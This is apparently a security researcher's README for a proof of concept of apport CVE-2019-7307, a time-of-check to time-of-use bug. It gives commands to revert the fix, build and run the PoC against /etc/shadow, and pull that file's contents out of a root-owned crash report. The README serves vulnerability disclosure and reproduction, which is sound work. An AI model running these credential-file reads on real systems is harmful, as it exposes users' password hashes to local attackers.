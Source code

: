 # TOCTOU in _get_ignore_dom (apport CVE-2019-7307)

[CVE-2019-7307](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-7307)
is a time-of-check to time-of-use (TOCTOU) vulnerability in
[apport](https://launchpad.net/ubuntu/+source/apport),
which enables an unprivileged local user to trick apport into
including the contents of an arbitrary file in a crash report.
The full bug report is public on `bugs.launchpad.net`:
[bug 1830858](https://bugs.launchpad.net/ubuntu/+source/apport/+bug/1830858).

## Instructions

I usually try to provide a `Dockerfile` so that my PoCs are safely reproducible on a patched system.
Unfortunately, apport is specifically designed to behave differently inside a container,
so I am not able to do so this time.
Instead, if you would like to test the exploit,
then you will need to revert the bug fix in your apport installation.
You can do that as follows:

```bash
git clone https://git.launchpad.net/ubuntu/+source/apport
cd apport
git checkout applied/2.20.9-0ubuntu7.6
sudo cp apport/report.py /usr/lib/python3/dist-packages/apport/report.py
```

When you are done, don't forget to fix your installation:

```bash
sudo apt-get install --reinstall python3-apport
```

Build the PoC for apport CVE-2019-7307 like this:

```bash
make
```

And run it like this:

```bash
./gencrashreport /etc/shadow
```

This will create a file named `/var/crash/_usr_share_apport_apport.0.crash`,
which is owned by `root`, but also readable by `whoopsie`.
For a full exploit chain, we therefore also need a second exploit that enables us to read files as whoopsie.
I didn't have such an exploit when CVE-2019-7307 was disclosed on 2019-07-09, but I do now:
see [README_CVE-2019-15790](README_CVE-2019-15790.md).
But to keep these instructions self-contained,
it is simplest to just change the permissions of the crash report:

```bash
sudo chmod 666 /var/crash/_usr_share_apport_apport.0.crash
```

At this point, you can unpack the crash report and see that the contents of `/etc/shadow` are embedded in the `CoreDump` file:

```bash
mkdir report
apport-unpack /var/crash/_usr_share_apport_apport.0.crash report
cd report
```

Note: `apport-unpack` is a bit flaky and usually crashes with an error message like this: `['ProcEnviron', 'UserGroups'] has no binary content`. But it works well enough to extract the core dump from the report. Now use your favorite text editor to open `CoreDump` and search for the contents of `/etc/password`. Searching for the string "root:" usually works.
